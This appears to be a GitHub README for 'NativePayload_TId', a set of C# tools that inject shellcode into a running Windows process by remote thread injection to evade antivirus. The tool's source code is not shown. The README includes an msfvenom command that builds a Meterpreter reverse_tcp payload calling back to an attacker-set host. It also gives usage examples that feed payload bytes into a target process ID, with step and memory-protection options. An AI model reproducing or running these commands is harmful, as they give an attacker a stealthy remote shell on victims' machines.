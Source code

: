 # NativePayload_TId
Remote Thread Injection by C# Delegate

-----------------------
Related Links for "Mitre ATT&CK": 

Process Injection: Portable Executable Injection ==>  https://attack.mitre.org/techniques/T1055/002/

Process Injection: Dynamic-link Library Injection ==> https://attack.mitre.org/techniques/T1055/001/

--------------------------
Your Payload Should be Msfvenom Payload ... 

msfvenom –platform windows –arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=w.x.y.z -f c > payload.txt
-------------------------

    Code1: NativePayload_TId.exe [TPID] [PAYLOAD]

    Code2: NativePayload_TIdnt.exe [TPID] [PAYLOAD]


    EXAMPLE: NativePayload_TId.exe 2452 "FC,48,83,00,..."

    EXAMPLE: NativePayload_TIdnt.exe 2452 "FC,48,83,00,..."
    
------------------------------------------------

Article [1]: https://damonmohammadbagher.github.io/Posts/11Feb2021x.html

Article [2]: https://www.linkedin.com/pulse/bypassing-anti-virus-creating-remote-thread-target-mohammadbagher

step by step => Chapter 14 : C# Delegate & Remote Thread Injection Technique (Part2)

https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH14/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2014%20-Part2.pdf

------------------------------------------------

online eBook, (chapters): https://damonmohammadbagher.github.io/Posts/ebookBypassingAVsByCsharpProgramming/

------------------------------------------------

![](https://github.com/DamonMohammadbagher/NativePayload_TId/blob/main/NativePayload_TIdnt.jpeg)

------------------------------------------------

    Code1 step1: NativePayload_TId2.exe [TPID] [PAYLOAD]

    Code2 step2: NativePayload_TId3.exe [TPID] [VAx-addr or VirtualAllocEx Address from step1]


    EXAMPLE: NativePayload_TId2.exe 2452 "FC,48,83,00,..."

    EXAMPLE: NativePayload_TId3.exe 2452 1bfc0190000

------------------------------------------------

    NativePayload_TImd.exe [steps 1 or 2] [delay 2000]  [MemoryProtection/mode 0 or 1] [TPID 4716]  [payload fc,48,..]
    
    example: NativePayload_TImd.exe  1  2000  0  4716  fc,48,56,...
    
    example: NativePayload_TImd.exe  2  6721  1  4716  fc,48,56,...
    
        step = 1  you will have 4 steps (default)
    
        step = 2  you will have 28 steps
    
        MemoryProtection = 0  API::VirtualAllocEx set to MemoryProtection.ExecuteReadWrite
    
        MemoryProtection = 1  API::VirtualAllocEx set to MemoryProtection.Execute
    

